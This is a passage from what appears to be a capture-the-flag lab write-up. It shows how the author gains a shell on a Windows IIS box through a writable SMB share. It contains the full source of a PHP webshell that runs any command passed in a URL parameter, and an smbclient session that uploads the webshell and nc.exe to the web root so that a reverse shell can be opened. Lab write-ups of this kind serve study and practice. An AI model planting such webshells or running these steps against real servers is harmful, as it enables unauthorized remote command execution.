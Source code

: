 ```
smb: \> ls
  .                                   D        0  Sun Aug 19 14:06:14 2018
  ..                                  D        0  Sun Aug 19 14:06:14 2018
  iisstart.htm                        A      696  Thu Jun 21 11:26:03 2018
  iisstart.png                        A    98757  Thu Jun 21 11:26:03 2018

		12978687 blocks of size 4096. 7919013 blocks available
```

So the `new-site` share is the root directory of the webserver listening on port 8808.

To get a shell on the box we'll do the following:

1. Upload a PHP webshell
2. Upload netcat
3. Run netcat through the webshell

Alternatively we could run nishang to get a reverse shell, but I had problem running `bash` and getting the output so netcat it is.

Webshell:

```php
<HTML><BODY>
<FORM METHOD="GET" NAME="myform" ACTION="">
<INPUT TYPE="text" NAME="cmd">
<INPUT TYPE="submit" VALUE="Send">
</FORM>
<pre>
<?php
if($_GET['cmd']) {
  system($_GET['cmd']);
  }
?>
</pre>
</BODY></HTML>
```

```
root@darkisland:~/tmp# smbclient -U tyler //10.10.10.97/new-site
WARNING: The "syslog" option is deprecated
Enter WORKGROUP\tyler's password: 
Try "help" to get a list of possible commands.
smb: \> pwd
Current directory is \\10.10.10.97\new-site\
smb: \> ls
  .                                   D        0  Sun Aug 19 14:06:14 2018
  ..                                  D        0  Sun Aug 19 14:06:14 2018
  iisstart.htm                        A      696  Thu Jun 21 11:26:03 2018
  iisstart.png                        A    98757  Thu Jun 21 11:26:03 2018

		12978687 blocks of size 4096. 7919013 blocks available
smb: \> put snowscan.php
putting file snowscan.php as \snowscan.php (1.6 kb/s) (average 1.6 kb/s)
smb: \> put nc.exe
putting file nc.exe as \nc.exe (152.5 kb/s) (average 91.8 kb/s)
```
